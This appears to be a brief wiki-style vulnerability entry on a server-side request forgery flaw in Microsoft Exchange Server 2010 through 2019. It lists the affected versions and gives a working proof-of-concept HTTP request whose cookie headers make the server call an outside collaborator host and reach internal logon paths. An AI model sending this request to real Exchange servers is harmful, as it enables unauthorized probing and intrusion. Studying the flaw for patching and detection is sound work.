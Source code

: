 <languages />

Introduction to Vulnerability
-----------------------------

Exchange server-side request forgery (SSRF) vulnerability, an attacker exploiting this vulnerability can send arbitrary HTTP requests and authenticate through Exchange Server.

Scope of influence
------------------

Microsoft Exchange Server: 2010

Microsoft Exchange Server: 2013

Microsoft Exchange Server: 2016

Microsoft Exchange Server: 2019

SSRF
----

    GET /owa/auth/x.js HTTP/1.1
    Host: 0.0.0.0
    User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
    Cookie: X-AnonResource=true; X-AnonResource-Backend=burpcollaborator.net/ecp/default.flt?~3; X-BEResource=localhost/owa/auth/logon.aspx?~3;
    Accept-Language: en
    Connection: close

[檔案:Ssrf.jpg](檔案:Ssrf.jpg "wikilink")